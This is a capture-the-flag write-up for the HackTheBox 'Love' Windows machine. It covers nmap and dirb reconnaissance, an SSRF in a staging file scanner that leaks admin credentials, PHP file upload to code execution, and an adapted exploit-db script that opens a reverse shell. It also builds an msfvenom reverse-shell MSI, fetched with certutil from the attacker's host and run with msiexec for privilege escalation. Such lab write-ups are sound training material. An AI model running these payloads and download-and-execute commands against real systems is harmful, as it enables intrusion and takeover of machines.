


# Hackthebox - Love - Windows

- [Box](https://app.hackthebox.com/machines/Love)

## Nmap

```
┌──(root💀kali)-[/home/kali]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.239
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-16 20:34 EDT
Nmap scan report for love.htb (10.10.10.239)
Host is up (0.024s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/16%OT=80%CT=1%CU=32535%PV=Y%DS=2%DC=I%G=Y%TM=62D359E
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m36s, deviation: 4h02m31s, median: 21m34s
| smb2-time: 
|   date: 2022-07-17T00:59:26
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-16T17:59:28-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 224.10 seconds

```

## Port 80

- We can add these 2 lines to our file /etc/hosts
```
10.10.10.239    love.htb
10.10.10.239    www.love.htb
```

### Dirb

```
┌──(kali㉿kali)-[~]
└─$ dirb http://www.love.htb/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Jul 16 20:54:11 2022
URL_BASE: http://www.love.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://www.love.htb/ ----
==> DIRECTORY: http://www.love.htb/admin/                                                                                                                                                                                                   
==> DIRECTORY: http://www.love.htb/Admin/                                                                                                                                                                                                   
==> DIRECTORY: http://www.love.htb/ADMIN/                                                                                                                                                                                                   
+ http://www.love.htb/aux (CODE:403|SIZE:302)                                                                                                                                                                                               
+ http://www.love.htb/cgi-bin/ (CODE:403|SIZE:302)                                                                                                                                                                                          
+ http://www.love.htb/com1 (CODE:403|SIZE:302)                                                                                                                                                                                              
+ http://www.love.htb/com2 (CODE:403|SIZE:302)                                                                                                                                                                                              
+ http://www.love.htb/com3 (CODE:403|SIZE:302)                                                                                                                                                                                              
+ http://www.love.htb/con (CODE:403|SIZE:302)                                                                                                                                                                                               
==> DIRECTORY: http://www.love.htb/dist/                                                                                                                                                                                                    
+ http://www.love.htb/examples (CODE:503|SIZE:402)                                                                                                                                                                                          
==> DIRECTORY: http://www.love.htb/images/                                                                                                                                                                                                  
==> DIRECTORY: http://www.love.htb/Images/                                                                                                                                                                                                  
==> DIRECTORY: http://www.love.htb/includes/                                                                                                                                                                                                
+ http://www.love.htb/index.php (CODE:200|SIZE:4388)                                                                                                                                                                                        
+ http://www.love.htb/licenses (CODE:403|SIZE:421)                                                                                                                                                                                          
+ http://www.love.htb/lpt1 (CODE:403|SIZE:302)                                                                                                                                                                                              
+ http://www.love.htb/lpt2 (CODE:403|SIZE:302)                                                                                                                                                                                              
+ http://www.love.htb/nul (CODE:403|SIZE:302)                                                                                                                                                                                               
+ http://www.love.htb/phpmyadmin (CODE:403|SIZE:302)                                                                                                                                                                                        
==> DIRECTORY: http://www.love.htb/plugins/                                                                                                                                                                                                 
+ http://www.love.htb/prn (CODE:403|SIZE:302)                                                                                                                                                                                               
+ http://www.love.htb/server-info (CODE:403|SIZE:421)                                                                                                                                                                                       
+ http://www.love.htb/server-status (CODE:403|SIZE:421)                                                                                                                                                                                     
+ http://www.love.htb/webalizer (CODE:403|SIZE:302)                                                                                                                                                                                         
                                                                                                                                                                                                                                            
---- Entering directory: http://www.love.htb/admin/ ----
+ http://www.love.htb/admin/aux (CODE:403|SIZE:302)                                                                                                                                                                                         
+ http://www.love.htb/admin/com1 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/admin/com2 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/admin/com3 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/admin/con (CODE:403|SIZE:302)                                                                                                                                                                                         
==> DIRECTORY: http://www.love.htb/admin/includes/                                                                                                                                                                                          
+ http://www.love.htb/admin/index.php (CODE:200|SIZE:6198)                                                                                                                                                                                  
+ http://www.love.htb/admin/lpt1 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/admin/lpt2 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/admin/nul (CODE:403|SIZE:302)                                                                                                                                                                                         
+ http://www.love.htb/admin/prn (CODE:403|SIZE:302)                                                                                                                                                                                         
                                                                                                                                                                                                                                            
---- Entering directory: http://www.love.htb/Admin/ ----
+ http://www.love.htb/Admin/aux (CODE:403|SIZE:302)                                                                                                                                                                                         
+ http://www.love.htb/Admin/com1 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/Admin/com2 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/Admin/com3 (CODE:403|SIZE:302)                                                                                                                                                                                        
+ http://www.love.htb/Admin/con (CODE:403|SIZE:302)                                                                                                                                                                                         
==> DIRECTORY: http://www.love.htb/Admin/includes/                                                                                                                                                                                          
[STRIPPED]
                                                                               
-----------------
END_TIME: Sat Jul 16 21:02:26 2022
DOWNLOADED: 18448 - FOUND: 47
```

- When browsing in the includes we find this page  

- if we lookup "voting systen sourcecodester" on google we get [this app on codester](https://www.sourcecodester.com/php/4808/voting-system-php.html) and [this exploit](https://www.exploit-db.com/exploits/49846)

## Port 443

- We can try to check out the certificate  
  
- We get some useful info to keep aside  
```
ValentineCorp
love.htb
staging.love.htb
roy@love.htb
```
- We get a new subdomain this way  

## Port 80

- We can access the new subdomain through port 80 
- We get a free file scanner with a demo option  
  
- I tried to see with http://127.0.0.1 but if we set up a python serv we could try to see if it actually fetches a file, and it does  
  
- What if we try one of the port like 5000 (I got a forbidden when trying to access it previously) 
- It works! We get creds for the admin panel!!  
  
- If we connect we get an admin panel  
  
- In the Voters menu we can upload a file
- we make a info.php file with a whoami command inside  
  
- Let's check in the images folder (we found it previously with dirb) if it gets there.  
  
- It does and if we click on it our command is executed  
  
- If we try to execute oneliners we might need to encore our shells because it is not working as is.
- I decided to have a look at other exploits for the voting system now that we are authenticated. And I could find [this one](https://www.exploit-db.com/exploits/49445)
- However when reading the script you will notice that the urls are not the proper one for us. Here is how to modify the begining of the script for it to work  
```
IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.3" # Reverse shell IP
REV_PORT = "4444" # Reverse port 
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
[STRIPPED]
```
- And of course you need to put your ip the website target. Also note that the payload is indeed encoded.
- It works and we have a reverse shell as phoebe  
  
- We can grab the user flag  
  

## Privesc

- We can run winpeas

  

- Let's try this
- `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=5555 -f msi > gabrielle.msi`
- We set our listener `rlwrap nc -lvp 5555`
- We serve it with pythom
- We get it on the target `certutil.exe -urlcache -f http://10.10.14.2/gabrielle.msi gabrielle.msi`
- `msiexec /i C:\xampp\htdocs\omrs\images\gabrielle.msi /quiet /qn /norestart`
- We are root!!  
